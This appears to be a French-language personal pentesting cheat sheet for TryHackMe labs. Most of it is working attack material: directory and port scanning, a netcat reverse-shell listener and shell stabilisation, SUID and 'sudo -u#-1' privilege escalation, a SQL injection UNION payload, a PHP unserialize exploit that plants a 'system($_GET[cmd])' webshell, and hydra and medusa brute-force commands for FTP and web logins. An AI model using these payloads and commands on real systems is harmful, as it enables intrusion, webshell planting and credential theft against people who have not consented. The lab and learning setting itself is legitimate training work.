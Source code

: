 # TryHackMe



https://github.com/veikoon/pentest/blob/master/commandes.md

Utilitaire :

​	wordlists: ls /usr/share/wordlists/dirb/
​	tmux : <ctrl+a> </> <*>  créer des nouvelles fenêtres

## Premier etape

**Endpoint : ** 

```
gobuster dir -k -x txt,json,php,html -u http://$IP -w /opt/wordlists/common.txt
gobuster fuzz --exclude-length XXXX -b 404 -k -u http://$IP/fuzz -w /opt/wordlist/common.txt
```

***Rechercher recursivement si tu trouve rien***



**Port : **

```
nmap -sC -sV -A -oN nmap.log $IP
```

**vulnerability :** 

```
nikto -h $IP
```

Si rien ne marche ajouter l'option -Pn au début de nmap



## Quand cest la galère

regarde les ports scanné

scan recursivement les folder

avec big.txt



## Reverse Shell

[Github des différentes reverse Shell command](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md#tools)]



Stabiliser bash :

```
python -c 'import pty; pty.spawn("/bin/bash")'

ctr+z

stty raw -echo; fg
```



*Si accés a l'uppload de fichier penssé a upload un fichier reverse php ?*

**Ne pas oublier d'écouter le port**

```
nc -lvp 4242
```



## Escalation Priviledge

​	[Liste des exploit avec permission](https://gtfobins.github.io/)

```bash
Find all SUID files: "fichier executable avec une autre perm que ton user"
find / -perm -4000 -print 2>>/dev/null
Find all SGID files:
find / -perm -2000 -print 2>>/dev/null
```



```
all sudo avaible
sudo -l

(ALL, !root) => sudo -u#-1 
```



Heberger un serveur pour passer des fichier

```
python2 -m SimpleHTTPServer
```



**PWnk!it    Exploit CVE-2021-4034**  [Github  source](https://github.com/ly4k/PwnKit)
**LinPeass analyse des faille dun système** [Github Source](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)



## Hash

```
haiti -e 42f749ade7f9e195bf475f37a44cafcb
```

https://crackstation.net/

```
hashcat -m XXX(look man) -a 0 HASH.hash /opt/wordlists/rockyou.txt
```

JohnTheReapper

```
john passHash --wordlist=/opt/wordlists/rockyou.txt 
```



## Reverse Engenering

gdv ./Programme
disas main
break point
`i r` (info registry)
x/s $XXXX



gdb
jump j *@ (modifié)
breakpoint b *@

## Sql injection

```sql
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```

```sql
group_concat()
```

get the specified column (in our case, table_name) from multiple returned rows and puts it into one string separated by commas. (modifié)

```sql
information_schema
```

contains information about all the databases and tables the user has access to


## osint 

```bash
exiftool WindowsXP.jpg  
```

## Steganographie

```
mogrify -format jpg important.png
java -jar stegsolve.jar 

stegsolve
steghide extract –sf image.jpeg
stegseek hellp.jpg /opt/wordlist/common.tx
```



## Windows SMB

https://tryhackme.com/room/metasploitintro

smbclient -L $IP 
smbclien -NL $IP

nmblookup -A $IP 



msfconsole
Search   *smb/netbios*
use *auxiliary/scanner/netbios/nbname*

## FTP

medusa -h $IP -U user.txt -P ./password.txt  -M ftp
**hydra -L username.txt -P password.txt ftp://$IP**

Mfsconsole :http://10.10.95.58/Lianyu.png

```bash
auxiliary(scanner/ftp/ftp_login)

PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
USER_FILE /usr/share/metasploit-framework/data/wordlists/unix_users.txt   
```

Montrer fichier caché sur ftp :

**dir -la**

*

## Unserialize PHP

Si il y a une fct 

**unserialize($variable)** dans le code cherche comment ecrire dans debug une version serialisé dun payload de reverse shell en php

tu serialize

```php
<?php
class FormSubmit
{
   public $form_file = 'test.php';
   public $message = '<?php system($_GET["cmd"]); ?>';
}
print serialize(new FormSubmit);
?>
```

tu execute `php code.php`

tu navigue vers 

http://10.10.33.139/index.php?debug=O:10:%22FormSubmit%22:2:s:9:%22form_file%22;s:8:%22test.php%22;s:7:%22message%22;s:30:%22%3C?php%20system($_GET[%22cmd%22]);%20?%3E%22;}

Puis vers la page que tu as créé

http://10.10.33.139/test.php?cmd=INSSERT_TA_COMMANDE



## Crack SSH key

RSA  

```bash
ssh2john privatekey>key.haash
john --wordlist=/opt/wordlists/rockyou.txt key.hash
john --show key.haas

chmod +600 id_rsa
ssh user@$IP -i id_rsa
```

## BRUTE Force

```BASH
hydra -l molly -P rockyou.txt 10.10.219.212 http-post-form "/admin/index.php:username=^USER^&password=^PASS^:F=Your password is incorrect" -V
```

**CRUNCH** 

Generate a dictionary file containing words with a minimum and maximum length of 6 (`6 6`) using the given characters (`0123456789abcdef`), saving the output to a file (`-0 6chars.txt`):

```
crunch 6 6 0123456789abcdef -o 6chars.txt
Crunch will now generate the following amount of data: 117440512 bytes
```

